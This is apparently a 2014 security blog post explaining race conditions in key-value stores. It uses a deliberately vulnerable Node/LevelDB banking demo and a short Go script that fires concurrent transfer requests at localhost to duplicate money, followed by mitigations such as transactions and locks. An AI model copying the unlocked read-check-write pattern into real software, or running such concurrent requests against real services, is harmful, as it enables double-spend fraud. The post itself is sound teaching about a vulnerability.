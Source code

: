 ```yaml
---
date: 2014-06-24 22:35:25 GMT
slug: two-reads-dont-make-a-write
tags: security, node.js
title: Two Reads Don't Make a Write
author: Tom Steele
type: text
---
```


Key-value data stores are a large part of modern application development, and growing in popularity. Solutions like Riak, LevelDB, MongoDB, etc. give you increased flexibility and development efficiency, as well as other benefits which have been covered and discussed extensively. With the benefits also come weaknesses, or maybe a better word is differences. One of which can result in an incredibly devastating vulnerability. 

Database race conditions can occur no matter what backend solution you choose. Traditional databases support [transactions](http://en.wikipedia.org/wiki/Database_transaction) to prevent them. But most key-value data stores do not have such mechanisms. This is well known, and in many cases is not deal breaker. But it is important to understand when this should be a requirement, or at least when a compensation is needed. 

Rather than a writing a long explanation centered around a theoretical situation I decided to write a quick demo application. Enter [raceybank](https://github.com/tomsteele/raceybank). A little Node application with a LevelDB backend.

This is incredibly simple and somewhat silly, but it demonstrates the issue well. Consider we have a banking application, or maybe we have a store that gives a user credits. Whatever. Let's look at our user model.

~~~~~javascript
module.exports = new dulcimer.Model({
    id: {
        derive: function() {
            return this.key.split('!')[1];
        }
    },
    name: {
        type: 'string',
        required: true
    },
    money: {
        type: 'integer',
        required: true
    }
}, { db: db, name: 'user'});
~~~~~

Pretty straight forward, we have a user with a unique id, a name, and some amount of money. Our application consists of two routes, `GET /users` and `POST /transfer`. There are instructions in the repository so you can follow along at home. Here is the transfer route.


~~~~~javascript
function handleTransfer(request, reply) {
    var to = null;
    var from = null;
    var amount = request.payload.amount;

    if (request.payload.to === request.payload.from) {
        return reply().code(400);
    }

    async.parallel([function (cb) {
        User.get(request.payload.to, function (err, user) {
            if (err) {
                return cb(err);
            }
            to = user;
            return cb();
        });
    }, function (cb) {
        User.get(request.payload.from, function (err, user) {
            if (err) {
                return cb(err);
            }
            from = user;
            return cb();
        });
    }], foundUsers);

    function foundUsers(err) {
        // Something happened or we didnt find the users.
        if (err || !to || !from) {
            return reply().code(404);
        }

        // Validate from has the funds for this transfer.
        if (from.money < amount) {
            return reply().code(403);
        }

        // Transfer the money.
        from.money -= amount;
        to.money += amount;
        async.parallel([function (cb) {
            from.save(function (err) {
                cb(err);
            });
        }, function (cb) {
            to.save(function (err) {
                cb(err);
            });
        }], saveUsers);
    }

    function saveUsers(err) {
        if (err) {
            return reply().code(500);
        }
        return reply();
    }
}
~~~~~

It's a bit of code, but the gist is we read two users from the database, validate the transferrer has the requested amount of funds, decrement from transferrer, increment transferee's funds, and save the user records. Once we have the application started, we can see that some seed data has been initialized by calling `GET /users` (note: you would never want to return this much information, but this is a demo).

~~~~~shell
$ curl http://localhost:3000/users | python -mjson.tool0
[
    {
        "id": "0000000001",
        "money": 100,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 100,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 100,
        "name": "Carol"
    }
]
~~~~~

Alice, Bob, and Carol all have 100 something, let's call it dollars, resulting in a total economy of $300. We'll transfer $100 from Alice to Bob, and then attempt to transfer $100 from Alice to Carol.

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000002", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 200 OK
~~~~~

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000003", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 403 Forbidden
~~~~~

The first request succeeds and the second fails because Alice does not have enough money. But we made these requests sequentially, what happens if we make these requests concurrently? I'll show you! Here is some quick Go code to make the magic happen. All it does is make the same two requests, but concurrently in two goroutines.

~~~~~go
package main

import (
    "bytes"
    "log"
    "net/http"
    "sync"
)

func main() {
    req1 := []byte(`{"to": "0000000002", "from": "0000000001", "amount": 100.00}`)
    req2 := []byte(`{"to": "0000000003", "from": "0000000001", "amount": 100.00}`)
    wait := &sync.WaitGroup{}
    wait.Add(2)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req1)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req2)

    wait.Wait()
    log.Println("done")
}
~~~~~

We restart the application to reset our data and run our exploit.

~~~~~shell
$ ./exploit-osx
2014/06/24 15:03:19 done
~~~~~

Check out users balance.

~~~~~shell
curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 0,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 200,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 200,
        "name": "Carol"
    }
]
~~~~~

Carol and Bob both have $200. WE JUST CREATED MONEY. No we're not Midas, we're simply exploiting a race condition. Alice is read twice before the write. So each request instance believes they have the required funds.

This is a traditional example and often used as the argument for why transactions are important. And in a real bank there would be much stricter control and fraud prevention to allow this to go unnoticed. But not everyone is a big bank with unlimited resources, and not every situation will deal in dollars and cents. This could be occur in something of relatively low importance, but still be a bug that could drive you to madness.

How can we prevent this? To me, this depends on the nature of the data being handled. If it's crucial financial data I would opt for a traditional database (there are NoSQL solutions that support transactions as well). If not, or you're already heavily invested in a existing solution, you can apply a lock/mutex around the troublesome operation. A library in Node land to solve this is [lock](https://github.com/dominictarr/lock). There are other mitigations, and some databases offer recommendations or built in mechanisms; investigate what works for you, look for this pattern, and test for it.

